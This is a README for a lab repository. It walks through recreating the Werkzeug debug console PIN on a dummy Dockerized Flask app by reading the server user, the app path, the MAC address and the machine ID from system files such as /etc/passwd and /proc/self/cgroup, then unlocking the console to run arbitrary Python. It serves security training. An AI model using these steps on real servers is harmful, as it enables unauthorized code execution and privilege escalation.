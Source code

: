 # Werkzeug Debug Console Pin Bypass
Werkzeug has a debug console that requires a pin by default. It's possible to bypass this with an LFI vulnerability or use it as a local privilege escalation vector. The debug console will lock after 10 invalid attempts which requires the server to be restarted for another 10 guesses.

The Werkzeug documentation warns users to **never** enable the debug console in production with or without a pin (https://werkzeug.palletsprojects.com/en/2.0.x/debug/#debugger-pin).

This repo provides a sample application to play with the `/console` endpoint on a dummy Flask application.

# How to use

1. Clone this repo
```
$ git clone https://github.com/wdahlenburg/werkzeug-debug-console-bypass.git
```

2. Build the Docker image
```
$ docker build -t werkzeug-debug-console:latest .
```

3. Run the Docker image
```
$ docker run -p 7777:7777 werkzeug-debug-console:latest
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.4:7777/ (Press CTRL+C to quit)
 * Restarting with stat
User: werkzeug-user
Module: flask.app
Module Name: Flask
App Location: /usr/local/lib/python3.9/site-packages/flask/app.py
Mac Address: 2485377892356
Werkzeug Machine ID: b'ea1fc30b6f4a173cea015d229c6b55b69d0ff00819670374d7a02397bc236523a57e9bab0c6e6167470ac65b66075388'

 * Debugger is active!
 * Debugger PIN: 118-831-072
```

Your server should be running on port 7777 at this point. The PIN will be displayed in the Docker logs, which is what you will be trying to recreate.


### Exploiting as a local privilege escalation

A scenario that could come up is that the Flask server is running under a certain user with privileges X. You are a local user on the system with privileges Y. You have the ability to access the same information that Werkzeug uses to generate the PIN for the user running the server. Successfully unlocking the console provides OS command injection as the user running the server.

At any point if you are unsure, you can reference the Docker logs to see the expected values for each parameter.

1. Open up a new terminal and log into Docker as some other user

```
$ docker ps                                            
CONTAINER ID   IMAGE                               COMMAND                  CREATED          STATUS          PORTS                                                                                                                                                                                          NAMES
9d0ff0081967   werkzeug-debug-console:latest       "python3 /app/server…"   16 minutes ago   Up 16 minutes   0.0.0.0:7777->7777/tcp, :::7777->7777/tcp

$ docker exec -u 0 -it 9d0ff0081967 /bin/bash
root@9d0ff0081967:/app#
```

2. Take a look at https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py for references
3. Identify the user running the server on port 7777
```
$ ps auxww | grep server
werkzeu+     1  0.0  0.1  34992 28072 ?        Ss   15:50   0:00 python3 /app/server.py
werkzeu+    10  0.0  0.1  35248 23780 ?        S    15:50   0:00 python3 /app/server.py
werkzeu+    11  0.0  0.1  35072 28276 ?        S    15:50   0:00 /usr/local/bin/python3 /app/server.py
werkzeu+    12  0.7  0.1 109316 25500 ?        Sl   15:50   0:08 /usr/local/bin/python3 /app/server.py
```
It's likely the werkzeu user is running the server, but the name is truncated.

```
$ cat /etc/passwd
...
werkzeug-user:x:1000:1000::/home/werkzeug-user:/bin/sh
```

4. Copy the `werkzeug-user` into the username field of the `werkzeug-pin-bypass.py` file.

5. Find the correct path to Flask
```
$ find / -name "app.py" 2>/dev/null
/usr/local/lib/python3.9/site-packages/flask/app.py
```

6. Update the `werkzeug-pin-bypass.py` file with this information. The location will be different if alternate Python versions or OS's are used.
7. Grab the Mac Address of the interface the server is hosting on:
```
$  python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import uuid
>>> str(uuid.getnode())
'2485377892356'
```

OR

```
$ cat /sys/class/net/eth0/address 
02:42:ac:11:00:04
root@9d0ff0081967:/app# python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> "".join("02:42:ac:11:00:04".split(":"))
'0242ac110004'
>>> print(0x0242ac110004)
2485377892356
```
9. Update the Mac address in the `werkzeug-pin-bypass.py` file.
10. In python3 run the following script to generate the machine id
```python3
machine_id = b""
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
    try:
        with open(filename, "rb") as f:
            value = f.readline().strip()
    except OSError:
        continue

    if value:
        machine_id += value
        break
try:
    with open("/proc/self/cgroup", "rb") as f:
        machine_id += f.readline().strip().rpartition(b"/")[2]
except OSError:
    pass

print(machine_id)
```
12. Update the machine id in the `werkzeug-pin-bypass.py` file.
13. Go ahead and run the werkzeug-pin-bypass.py on the attacking machine
```
$  python3 ./werkzeug-pin-bypass.py
Pin: 118-831-072
```

If all goes well you should have the same Pin as the one displayed in the Docker logs. If not, recheck your steps. If you are on an old version of Werkzeug, try changing the hashing algorithm to md5 instead of sha1.

The pin can be accepted at http://127.0.0.1:7777/console. Once the system is unlocked you can run any python commands you want.

# Credit
The original research was done here: https://www.daehee.com/werkzeug-console-pin-exploit/

The LFI vector is listed here: https://github.com/grav3m1nd-byte/werkzeug-pin
